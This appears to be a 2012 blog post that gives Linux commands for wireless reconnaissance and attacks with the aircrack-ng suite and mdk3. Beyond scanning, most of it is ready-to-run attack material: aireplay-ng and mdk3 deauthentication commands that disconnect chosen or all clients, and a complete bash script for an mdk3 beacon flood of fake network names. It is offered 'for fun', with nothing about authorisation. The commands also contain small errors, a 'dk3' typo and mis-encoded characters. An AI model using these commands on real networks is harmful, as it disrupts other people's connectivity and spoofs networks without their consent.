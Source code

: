 ﻿---
layout: post
title:  Wireless Fun with Aircrack and Others
date:   2012-11-05 00:00:00 -0500
categories: IT
---

A short list of some things you can do with wireless on a linux box. Have fun.

***Determine Modes your NIC is capable of.***
{% highlight powershell %}
airmon-ng (find PHY# for your NIC)
iw phy phy1 info | grep â€“A8 modes
{% endhighlight %}
***Passive Scan (Should not generate any frames)***
{% highlight powershell %}
iw dev wlan0 scan passive | grep SSID
{% endhighlight %}
***Active Scan***
{% highlight powershell %}
iw dev wlan0 scan | grep SSID
airmon-ng start wlan0
airodump-ng mon0
iwconfig wlan0 channel #
iwconfig wlan0 essid <ssid>
iwconfig wlan0 mode managed
{% endhighlight %}
***Deauthorization***
{% highlight powershell %}
iwconfig mon0 channel #
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
{% endhighlight %}
- -0 means deauthentication
- 1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously
- -a 00:14:6C:7E:40:80 is the MAC address of the access point
- -c 00:0F:B5:34:30:30 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
- ath0 is the interface name

***Deauthorization with ***MDK3***
{% highlight powershell %}
airmon-ng start wlan0
dk3 mon0 d
{% endhighlight %}
or
{% highlight powershell %}
mdk3 mon0 d -w whitelist (deauth everything not listed in file)
{% endhighlight %}
or
{% highlight powershell %}
mdk3 mon0 d -b blacklist (deauth everything listed in file)

d - deauthorization mode
w - whitelist
b - blacklist{% endhighlight %}
***Broadcast Network Names with MDK3***
{% highlight powershell %}
airmon-ng start wlan0
mdk3 mon0 b -c 11 -f ssid_names
{% endhighlight %}
- b - beacon flood mode
- c - channel
- f - text file with ssid names
Everything you need to run a beacon flood in one script.
{% highlight powershell %}
networks=(
"FreeWifi"
"FBI Van #12"
"Customer Wireless"
"Visitors"
"ATTWifi"
"Verizon Hotspot"
"l33t haxor net"
)

if [ -f ssid_names ]
then
echo -e "\e[1;31mDeleting list of network names\e[0m"
rm -f ssid_names
fi

echo -e "\e[1;32mCreating list of network names\e[0m"
for i in "${networks[@]}"
do
echo $i >> ssid_names
done

if [[ -n $(airmon-ng | grep mon0) ]]
then
echo -e "\e[1;32mMon0 interface exists\e[0m"
else
echo -e "\e[1;32mStarting AirMon on wlan0\e[0m"
airmon-ng start wlan0
fi

echo -e "\e[1;32mBegin beacon flood on mon0\e[0m"
mdk3 mon0 b -c 11 -f ssid_names
{% endhighlight %}

- <a href="http://www.cyberciti.biz/tips/linux-find-out-wireless-network-speed-signal-strength.html" target="_blank">8 Linux Commands: To Find Out Wireless Network Speed, Signal Strength And Other Information</a>
- <a style="text-decoration: underline;" title="airplay-ng Deauthentication" href="http://www.aircrack-ng.org/doku.php?id=deauthentication" target="_blank">aircrack-ng Deauthorize</a>
- <a href="http://www.aircrack-ng.org/doku.php?id=airmon-ng" target="_blank">airmon-ng</a>
- <a href="http://www.linuxcommand.org/man_pages/iwconfig8.html" target="_blank">iwconfig man page</a>
- <a href="http://wireless.kernel.org/en/users/Documentation/iw" target="_blank">iw command info</a>



